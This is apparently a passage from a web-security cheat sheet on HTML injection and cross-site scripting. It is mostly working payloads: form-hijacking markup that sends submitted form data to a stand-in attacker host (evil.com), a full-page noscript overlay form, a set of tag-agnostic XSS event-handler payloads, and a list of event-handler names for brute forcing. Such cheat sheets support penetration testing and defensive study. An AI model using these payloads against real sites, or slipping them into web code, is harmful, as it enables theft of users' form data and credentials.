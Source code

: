 * Stealing Forms\
  Set a form header: `<form action='http://evil.com/log_steal'>` this will overwrite the next form header and all the data from the form will be sent to the attacker

```html
<button name=xss type=submit formaction='https://google.com'>I get consumed!
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```

* using noscript

```html
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```

#### 3) Get your event handler injected

* [Agnostic Event Handlers](https://brutelogic.com.br/blog/agnostic-event-handlers/)

> "When building XSS payloads, some javascript event handlers can be used regardless of the tag used and work on the 5 major browsers until date (Chrome, Firefox, IE/Edge, Safari and Opera) hence the term “agnostic”"

```html
<brute contenteditable onblur=alert(1)>lose focus!  
<brute onclick=alert(1)>click this!  
<brute oncopy=alert(1)>copy this!  
<brute oncontextmenu=alert(1)>right click this!  
<brute oncut=alert(1)>copy this!  
<brute ondblclick=alert(1)>double click this!  
<brute ondrag=alert(1)>drag this!  
<brute contenteditable onfocus=alert(1)>focus this!  
<brute contenteditable oninput=alert(1)>input here!  
<brute contenteditable onkeydown=alert(1)>press any key!  
<brute contenteditable onkeypress=alert(1)>press any key!  
<brute contenteditable onkeyup=alert(1)>press any key!  
<brute onmousedown=alert(1)>click this!  
<brute onmousemove=alert(1)>hover this!  
<brute onmouseout=alert(1)>hover this!  
<brute onmouseover=alert(1)>hover this!  
<brute onmouseup=alert(1)>click this!  
<brute contenteditable onpaste=alert(1)>paste here!  
<brute style=font-size:500px onmouseover=alert(1)>0000
```

* [Port Swigger Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Brute Force Event Handlers

```html
onafterprint
onafterscriptexecute
onanimationcancel
onanimationend
onanimationiteration
onanimationstart
onauxclick
onbeforecopy
onbeforecut
onbeforeinput
onbeforeprint
onbeforescriptexecute
onbeforetoggle
onbeforeunload
onbegin
onblur
onbounce
oncanplay
```